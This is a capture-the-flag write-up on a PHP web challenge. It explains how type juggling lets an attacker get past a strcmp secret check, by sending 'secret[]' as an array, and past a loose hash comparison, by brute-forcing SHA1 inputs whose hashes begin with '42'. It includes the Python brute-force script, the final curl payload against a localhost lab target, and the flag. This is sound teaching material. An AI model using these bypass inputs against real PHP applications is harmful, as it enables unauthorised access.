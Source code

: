 Inspiration https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf

Solution: Exploit PHP's funny type juggling problems to get flag

Analysing the source code:

> Reads in POST data

![image](https://user-images.githubusercontent.com/63996033/233854958-b5ce7010-9135-4f5a-a9d8-a0d17d56f299.png)

> Uses strcmp to check the secret values (unsafe due to type juggling by PHP

![image](https://user-images.githubusercontent.com/63996033/233855074-a4bdcec5-9ee6-459a-b7ef-85ac17cfaa6a.png)

> Hashes the `meaningoflife` input and checks if it is 42

![image](https://user-images.githubusercontent.com/63996033/233855416-ce38e8d4-e173-43f2-a09f-af3aff1e42f6.png)

From this somethings can be observed: How is possible that a [sha1 hashed](https://en.wikipedia.org/wiki/SHA-1), which produces 20 byte long hashes, be able to equal the number 42; What's up with strcmp and how can I get the correct secret?

Well [this](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) explains it clearly.

> There are strict comparisons which uses `===` (3 equal signs)

![image](https://user-images.githubusercontent.com/63996033/233855569-7913975a-f604-4695-91ff-d2cd869f1b91.png)

> There are loose comparisons which uses `==` (2 equal signs)

![image](https://user-images.githubusercontent.com/63996033/233855593-197bc175-acf5-4485-b591-6424bb8827e8.png)

So to bypass the secret check we could pass in an array instead. It would result in NULL given out by the strcmp function.

![image](https://user-images.githubusercontent.com/63996033/233855757-b98a157f-3755-4ae1-9d90-96924bafcc4c.png)

![image](https://user-images.githubusercontent.com/63996033/233855795-30ca7780-c714-4911-91c7-21ecace9a550.png)

Since `NULL = 0` this method works when we give `secret[]` instead of `secret`

![image](https://user-images.githubusercontent.com/63996033/233857301-82d2bd84-529c-499a-9703-cacb287e65b7.png)

There we go it works. Now time to bypass the `meaningoflife` check. Similarly, we can abuse the PHP type juggling here also!

![image](https://user-images.githubusercontent.com/63996033/233857575-157e9cf6-c909-4cf9-8bb6-2c51edb98d05.png)

So, just need to input a hash with `42` as starting followed by a non-digit character. [I bruteforced it using python.](gethash.py)

```py
import hashlib
import random
import string

for i in range(10000):
    random_string = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(5))
    hash = hashlib.sha1(random_string.encode('utf-8')).hexdigest()
    # print the hash
    if hash.startswith('42') and hash[2] not in '0123456789':
        print(random_string)

# outputs: can use any of these for meaningoflife
'''
sFfpR
REPAb
bwGE0
qzGp0
xT91y
BhTRg
pTSjA
GqmIe
72tm9
E1VGD
Odowg
U8jyj
M5ODb
Q0z3U
YbcM0
48I7K
zqOxi
mhW7H
fYHxh
'''
```

> So the final payload will be:

```
curl -X POST "http://localhost:2345/index.php" -d "secret[]"="anything" -d "meaningoflife"="sFfpR"
```

![image](https://user-images.githubusercontent.com/63996033/233857833-ceef910d-ed3e-4cf3-91c1-1f6046dee987.png)

Flag: `blocs{php_is_the_biggest_clown_of_all_the_clowns}`
